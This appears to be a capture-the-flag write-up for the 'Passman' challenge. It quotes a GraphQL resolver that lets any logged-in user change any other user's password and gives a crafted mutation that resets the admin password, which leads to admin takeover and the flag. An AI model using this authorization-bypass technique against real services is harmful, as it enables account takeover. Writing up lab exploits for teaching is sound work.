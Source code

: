 # Passman (easy)
In this challenge we will work with graphql and attack lack of input validation.

When opening the website we will see a login page.
This time there's also the option to create a user, so let's do that.

Logging in to the website we can use the password manager and add password.

Through this we inspect what a **muatation query** looks like:

```json
{
  "query": "mutation($recType: String!, $recAddr: String!, $recUser: String!, $recPass: String!, $recNote: String!) { AddPhrase(recType: $recType, recAddr: $recAddr, recUser: $recUser, recPass: $recPass, recNote: $recNote) { message } }",
  "variables": {
    "recType": "Web",
    "recAddr": "asd",
    "recUser": "asd",
    "recPass": "asd",
    "recNote": "asd"
  }
}
```

We see that **mutation** is used for queries that add/update information.
We see that this lists the types of variables first, and then inside the curly braces constructs the object to be added, and then inside another set of braces declares the result we get back.

Then we declare all of our variables and set their values.

Now we turn our attention to the `helpers/GraphqlHelper.js` file.
Here we have all types of graphql requests that we can make, however one stands out:

```javascript
UpdatePassword: {
    type: ResponseType,
    args: {
        username: { type: new GraphQLNonNull(GraphQLString) },
        password: { type: new GraphQLNonNull(GraphQLString) }
    },
    resolve: async (root, args, request) => {
        return new Promise((resolve, reject) => {
            if (!request.user) return reject(new GraphQLError('Authentication required!'));

            db.updatePassword(args.username, args.password)
                .then(() => resolve(response("Password updated successfully!")))
                .catch(err => reject(new GraphQLError(err)));
        });
    }
},
```

Here we see that we can send a request to update passwords of users.

The function checks if we are logged in, but allows to update the password of any other user, therefore our attack will go as follows:
1. Create any user
2. Authenticate as that user to get a session
3. Send a request to the `UpdatePassword` function to change the admin password
4. Login as admin

I crafted the following graphql request to update the password of the admin user

```json
{
  "query": "mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message } }",
  "variables": {
    "username": "admin",
    "password": "pwned"
  }
}
```

After this we log in as admin, and unhide the only password that is stored, and that is our flag.
